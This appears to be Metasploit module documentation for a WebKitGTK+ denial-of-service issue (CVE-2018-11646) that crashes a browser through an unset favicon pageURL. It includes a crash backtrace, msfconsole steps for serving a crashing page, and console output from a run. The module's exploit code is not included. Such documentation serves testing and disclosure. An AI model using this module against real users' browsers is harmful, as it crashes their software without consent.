 ## Vulnerable Application

This module exploits a vulnerability in WebKitFaviconDatabase when pageURL is unset. If successful,it could leads to application crash, denial of service, webkitFaviconDatabaseSetIconForPageURL and webkitFaviconDatabaseSetIconURLForPageURL in UIProcess/API/glib/WebKitFaviconDatabase.cpp in WebKit, as used in WebKitGTK+ through 2.21.3, mishandle an unset pageURL, leading to an application crash. 

Related links :<br> 
https://bugs.webkit.org/show_bug.cgi?id=186164<br>
https://datarift.blogspot.com/2018/06/cve-2018-11646-webkit.html

## Backtrace using Fedora 27

```
#0 WTF::StringImpl::rawHash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 508
#1 WTF::StringImpl::hasHash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 514
#2 WTF::StringImpl::hash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringImpl.h line 525
#3 WTF::StringHash::hash
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/text/StringHash.h line 73
#9 WTF::HashMap, WTF::HashTraits >::get
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/HashMap.h line 406
#10 webkitFaviconDatabaseSetIconURLForPageURL
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitFaviconDatabase.cpp line 193
#11 webkitFaviconDatabaseSetIconForPageURL
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitFaviconDatabase.cpp line 318
#12 webkitWebViewSetIcon
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/API/glib/WebKitWebView.cpp line 1964
#13 WTF::Function::performCallbackWithReturnValue
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/GenericCallback.h line 108
#15 WebKit::WebPageProxy::dataCallback
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/WebPageProxy.cpp line 5083
#16 WebKit::WebPageProxy::finishedLoadingIcon
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WebKit/UIProcess/WebPageProxy.cpp line 6848
#17 IPC::callMemberFunctionImpl::operator()
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/glib/RunLoopGLib.cpp line 68
#29 WTF::RunLoop::::_FUN(gpointer)
at /usr/src/debug/webkitgtk4-2.18.0-2.fc27.x86_64/Source/WTF/wtf/glib/RunLoopGLib.cpp line 70
#30 g_main_dispatch
at gmain.c line 3148
#31 g_main_context_dispatch
at gmain.c line 3813
#32 g_main_context_iterate
at gmain.c line 3886
#33 g_main_context_iteration
at gmain.c line 3947
#34 g_application_run
at gapplication.c line 2401
#35 main
at ../src/ephy-main.c line 432 

```

## Verification

    Start msfconsole
    use auxiliary/dos/http/webkitplus
    Set SRVHOST
    Set SRVPORT
    Set URIPATH
    run (Server started)
    Visit server URL in epiphany web browser which uses webkit. 

## Scenarios

```
msf auxiliary(dos/http/webkitplus) > show options 

Module options (auxiliary/dos/http/webkitplus):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.1.105    yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /                no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer


msf auxiliary(dos/http/webkitplus) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(dos/http/webkitplus) > 
[*] Using URL: http://192.168.1.105:8080/
[*] Server started.

msf auxiliary(dos/http/webkitplus) > 
[*] Sending response

msf auxiliary(dos/http/webkitplus) >
```
